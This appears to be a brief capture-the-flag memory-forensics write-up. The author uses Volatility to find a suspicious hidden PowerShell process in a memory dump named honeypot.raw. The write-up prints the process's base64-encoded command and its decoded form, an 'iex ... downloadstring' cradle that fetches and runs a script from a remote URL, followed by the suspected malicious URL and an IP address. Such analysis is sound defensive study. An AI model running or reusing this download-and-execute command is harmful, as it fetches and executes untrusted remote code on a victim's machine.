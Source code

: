 1. `vol.py -f honeypot.raw windows.cmdline.CmdLine` find werid powershell command. The URL redirect to Rick Roll, so its likely the URL to download malware.
```
2700    powershell.exe  "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /window hidden /e aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcABzADoALwAvAHcAaQBuAGQAbwB3AHMAbABpAHYAZQB1AHAAZABhAHQAZQByAC4AYwBvAG0ALwB1AHAAZABhAHQAZQAuAHAAcwAxACcAKQApAA==

=> iex ((new-object net.webclient).downloadstring('https://windowsliveupdater.com/update.ps1'))
```

https://windowsliveupdater.com/christmas_update.hta_2700_147.182.172.189
